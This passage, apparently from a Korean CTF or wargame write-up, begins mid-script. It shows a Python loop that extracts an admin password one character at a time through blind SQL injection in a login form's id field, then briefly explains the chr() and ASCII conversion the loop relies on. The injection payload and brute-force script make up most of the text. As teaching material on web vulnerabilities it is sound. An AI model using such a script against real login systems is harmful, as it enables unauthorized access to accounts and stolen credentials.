 ```python
            'id':f"admin' and substr(pw,{pwlength},1)={chr(i)}",
            # substr 함수 브루트포스 script
            'pw':'No Value'
            # 아무런 값
        }

        Urlrequest = requests.post(Url, data=data)

        if Urlrequest.text.find("Login succee!") > 0:
            print(chr(i),end='')
            # chr(i) 로 패스워드 줄바꿈 없이 출력

            AdminPassword += chr(i)
            # chr(i) 로 패스워드 저장

            check = 0
            # check를 0 으로 초기화시켜서 비밀번호 길이 체크
            break

    if check == 1:
        # 만약 check 가 1이라면 패스워드 길이 끝

        break
    check = 1
    # 위의 조건이 아니면 1로 초기화

print(AdminPassword)
# 합쳐진 패스워드 출력
```
<br>

## ascii 문자로 프루트 포스
<br>

* * *
range 로 돌면서 사용한 chr 함수이다. 
<br><br>
간단하게 숫자를 아스키코드처럼 여겨 문자열로 변환

* * *
<br>

![ascii list](https://t1.daumcdn.net/cfile/tistory/216CE84C52694FF020)